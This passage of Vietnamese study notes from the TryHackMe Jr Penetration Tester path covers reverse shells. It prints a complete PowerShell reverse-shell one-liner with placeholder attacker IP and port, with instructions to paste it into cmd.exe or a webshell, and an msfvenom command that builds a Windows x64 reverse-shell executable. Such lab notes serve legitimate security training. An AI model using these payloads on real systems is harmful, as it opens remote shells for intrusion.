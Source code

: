**PowerShell Reverse Shell**

Trên các máy chủ Windows hiện đại, việc sử dụng PowerShell reverse shell rất phổ biến. Dưới đây là một payload PowerShell reverse shell tiêu chuẩn:

    powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Cách sử dụng:

- Thay thế < IP > và < PORT > bằng địa chỉ IP và cổng của máy tấn công.

- Sao chép và dán lệnh vào cmd.exe hoặc một phương thức thực thi lệnh khác trên máy chủ Windows (ví dụ: webshell).

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image10.png?raw=true)

**Tài nguyên bổ sung**

PayloadsAllTheThings: Một kho lưu trữ chứa nhiều loại payload shell (thường ở định dạng một dòng) bằng nhiều ngôn ngữ khác nhau.

**Task 9: msfvenom**

Msfvenom là công cụ trung tâm trong Metasploit Framework, được sử dụng để tạo các payload như reverse shell và bind shell. Nó cũng được dùng để tạo shellcode trong quá trình phát triển khai thác, chẳng hạn như khai thác tràn bộ đệm. Ngoài ra, msfvenom có thể tạo payload ở nhiều định dạng khác nhau (ví dụ: .exe, .aspx, .war, .py).

**Cú pháp cơ bản của Msfvenom**

Cú pháp chung của msfvenom như sau:

    msfvenom -p <PAYLOAD> <OPTIONS>

Ví dụ, để tạo một Windows x64 Reverse Shell ở định dạng .exe:

    msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image11.png?raw=true)
